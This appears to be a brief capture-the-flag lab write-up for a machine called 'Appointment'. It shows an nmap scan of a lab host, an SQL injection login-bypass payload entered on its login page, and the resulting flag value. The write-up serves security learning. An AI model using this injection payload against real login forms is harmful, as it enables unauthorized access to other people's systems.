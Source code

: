 # Appointment

#startingpoint #databases #apache #mariadb #php #sql #reconnaissance #sqli

`nmap` scan for port 80 shows `Apache httpd 2.4.38 ((Debian))` is running:

```
$ nmap -p80 -sC -sV 10.129.160.240
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 13:18 EDT
Nmap scan report for 10.129.160.240
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.50 seconds
```

Using SQLi on the login page:

```
admin' or 1=1 -- -
```

![[Pasted image 20240831182053.png]]

Flag is displayed upon entry:

```
e3d0796d002a446c0e622226f42e9672
```